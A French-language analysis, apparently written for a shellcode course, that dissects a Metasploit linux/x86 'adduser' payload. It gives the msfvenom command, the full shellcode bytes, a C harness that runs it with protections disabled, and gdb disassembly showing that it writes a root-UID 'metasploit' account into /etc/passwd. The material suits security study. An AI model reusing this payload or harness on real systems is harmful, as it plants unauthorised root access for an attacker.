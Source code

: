 # Analyse de trois payload issus générés via metasploit #

Métasploit propose plusieurs payload présentés ci-dessous :

<img src = "assets/images/6_01.png">


Nous allons procéder à l'analyse des trois premiers.

## Premier payload, adduser: ##

Nous générons le code avec la commande :
```c
msfvenom -a x86 --platform linux -p linux/x86/adduser -f c
```
```c
No encoder or badchars specified, outputting raw payload
Payload size: 97 bytes
Final size of c file: 433 bytes
unsigned char buf[] = 
"\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51"
"\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63"
"\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x28\x00\x00\x00\x6d\x65"
"\x74\x61\x73\x70\x6c\x6f\x69\x74\x3a\x41\x7a\x2f\x64\x49\x73"
"\x6a\x34\x70\x34\x49\x52\x63\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a"
"\x2f\x62\x69\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58"
"\xcd\x80\x6a\x01\x58\xcd\x80";
```

Le shellcode est copié dans un fichier shellcode.c afin de pouvoir procéder à l'analyse.

```c
#include <stdio.h>
#include <string.h>


unsigned char code[] = \
"Pur your shellcode here";

int main()
{

        printf("taille %lu\n", strlen(code));

        int (*ret)() = (int(*)())code;

        ret();

        return 0;

}
```

Puis compilé :

```c
gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
```

Nous executons le programme et observons les modifications :

```c
./shellcode
more /etc/passwd | grep metasploit
metasploit:Az/dIsj4p4IRc:0:0::/:/bin/sh
```

Il y a effectivememnt un utilisateur qui vient d'être ajouté.


On lance gdb et nous voyons qu'un call vers la fonction prinf de libc est executé.
La valeur 40 et la chaine taille\n sont également posées sur la pile.

```c
   0x8048419 <main+14>:	sub    esp,0x14
   0x804841c <main+17>:	sub    esp,0x8
   0x804841f <main+20>:	push   0x28
=> 0x8048421 <main+22>:	push   0x8048562
   0x8048426 <main+27>:	call   0x80482e0 <printf@plt>
   0x804842b <main+32>:	add    esp,0x10
   0x804842e <main+35>:	mov    DWORD PTR [ebp-0xc],0x8048500
   0x8048435 <main+42>:	mov    eax,DWORD PTR [ebp-0xc]

   gdb-peda$ x/s 0x8048562
   0x8048562:	"taille %d\n"
```



A l'adresse 0x804842e l'adresse de la fonction à étudier(0x8048500) est mise sur la pile.

```c
=> 0x804842e <main+35>:	mov    DWORD PTR [ebp-0xc],0x8048500
```

En observant un peu en mémoire à l'adresse 0x804852b, nous trouvons la chaine qui est présente dans le fichier /etc/passwd.

```c
metasploit:Az/dIsj4p4IRc:0:0::/:/bin/sh
```

A l'adresse 0x8048438, la commande call eax est l'appel qui va nous interesser, il est détaillé ci-dessous.

```asm
    
    ;setreuid syscall (Fixe les ID d'utilisateur effectif et réel du processus appelant)
    ;setreuid(0)

=> 0x08048500 <+0>:	xor    ecx,ecx
   0x08048502 <+2>:	mov    ebx,ecx
   0x08048504 <+4>:	push   0x46
   0x08048506 <+6>:	pop    eax			
   0x08048507 <+7>:	int    0x80                 

    ;open syscall (open file /etc/passwd)

   0x08048509 <+9>:	    push   0x5			    
   0x0804850b <+11>:	pop    eax
   0x0804850c <+12>:	xor    ecx,ecx
   0x0804850e <+14>:	push   ecx
   0x0804850f <+15>:	push   0x64777373		;dwss
   0x08048514 <+20>:	push   0x61702f2f		;ap//
   0x08048519 <+25>:	push   0x6374652f		;cte/
   0x0804851e <+30>:	mov    ebx,esp
   0x08048520 <+32>:	inc    ecx              
   0x08048521 <+33>:	mov    ch,0x4			; ecx = 0x401 = s_ixoth and s_irusr (read and execute)
   0x08048523 <+35>:	int    0x80			    
   0x08048525 <+37>:	xchg   ebx,eax

    ; call 0x8048553 with arg[0]: 0x6374652f ('/etc')
    ; arg[1]: 0x61702f2f ('//pa')
    ; arg[2]: 0x64777373 ('sswd')
    ; arg[3]: 0x0 


   0x08048526 <+38>:	call   0x8048553 <code+83>

    ; Copie le contenu de ecx dans le fichier /etc/passwd

    [----------------------------------registers-----------------------------------]
        EAX: 0x4        ; write syscall
        EBX: 0xfffffff3 ; pointeur vers le fichier /etc/passwd
        ECX: 0x804852b ("metasploit:Az/dIsj4p4IRc:0:0::/:/bin/sh\nY\213Q\374j\004X̀j\001X̀") ; chaîne à copier
        EDX: 0x28 ('(') ;taille de la chaine à copier
        ESI: 0xf7fb7000 --> 0x1afdb0 
        EDI: 0xf7fb7000 --> 0x1afdb0 
        EBP: 0xffffcf78 --> 0x0 
        ESP: 0xffffcf4c ("/etc//passwd")
        EIP: 0x804855a --> 0x16a80cd
        EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
        [-------------------------------------code-------------------------------------]
        0x8048556 <code+86>:	cld    
        0x8048557 <code+87>:	push   0x4
        0x8048559 <code+89>:	pop    eax
        => 0x804855a <code+90>:	int    0x80
        0x804855c <code+92>:	push   0x1
        0x804855e <code+94>:	pop    eax
        0x804855f <code+95>:	int    0x80
        0x8048561 <code+97>:	add    BYTE PTR [ecx+eiz*2+0x69],dh
    [------------------------------------stack-------------------------------------]

    ; Le reste du code n'est pas exécuté
    
   0x0804852b <+43>:	ins    DWORD PTR es:[edi],dx
   0x0804852c <+44>:	gs je  0x8048590
   0x0804852f <+47>:	jae    0x80485a1
   0x08048531 <+49>:	ins    BYTE PTR es:[edi],dx
   0x08048532 <+50>:	outs   dx,DWORD PTR ds:[esi]
   0x08048533 <+51>:	imul   esi,DWORD PTR [edx+edi*1+0x41],0x49642f7a
   0x0804853b <+59>:	jae    0x80485a7
   0x0804853d <+61>:	xor    al,0x70
   0x0804853f <+63>:	xor    al,0x49
   0x08048541 <+65>:	push   edx
   0x08048542 <+66>:	arpl   WORD PTR [edx],di
   0x08048544 <+68>:	xor    BYTE PTR [edx],bh
   0x08048546 <+70>:	xor    BYTE PTR [edx],bh
   0x08048548 <+72>:	cmp    ch,BYTE PTR [edi]
   0x0804854a <+74>:	cmp    ch,BYTE PTR [edi]
   0x0804854c <+76>:	bound  ebp,QWORD PTR [ecx+0x6e]
   0x0804854f <+79>:	das    
   0x08048550 <+80>:	jae    0x80485ba
   0x08048552 <+82>:	or     bl,BYTE PTR [ecx-0x75]
   0x08048555 <+85>:	push   ecx
   0x08048556 <+86>:	cld   

   ; write

   0x08048557 <+87>:	push   0x4
   0x08048559 <+89>:	pop    eax
   0x0804855a <+90>:	int    0x80			

    ; exit 

   0x0804855c <+92>:	push   0x1
   0x0804855e <+94>:	pop    eax
   0x0804855f <+95>:	int    0x80			
```





